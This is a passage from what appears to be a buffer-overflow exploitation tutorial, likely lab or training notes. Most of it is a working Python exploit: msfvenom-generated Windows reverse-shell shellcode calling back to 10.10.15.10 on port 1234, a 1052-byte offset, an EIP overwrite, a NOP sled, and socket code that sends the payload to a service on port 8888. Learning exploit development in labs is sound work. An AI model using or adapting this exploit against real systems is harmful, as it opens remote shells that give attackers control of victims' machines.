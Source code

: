 ### Finding a Return Instruction 

As in the previous case (local), search for aviable addresses.

### Jumping to Shellcode 

Create a payload and send it:
```python
def exploit():
    # msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python'
    buf = b""
    buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
    buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
    buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
    buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
    buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
    buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
    buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
    buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
    buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
    buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
    buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
    buf += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
    buf += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
    buf += b"\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
    buf += b"\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0f\x0a\x68"
    buf += b"\x02\x00\x04\xd2\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
    buf += b"\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
    buf += b"\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
    buf += b"\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
    buf += b"\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
    buf += b"\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
    buf += b"\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
    buf += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
    buf += b"\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
    buf += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

    offset = 1052
    buffer = b"A"*offset
    eip = pack('<L', 0x0069D2E5)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1", 8888))
    s.send(payload)
    s.close()
```

## Remote Exploitation 
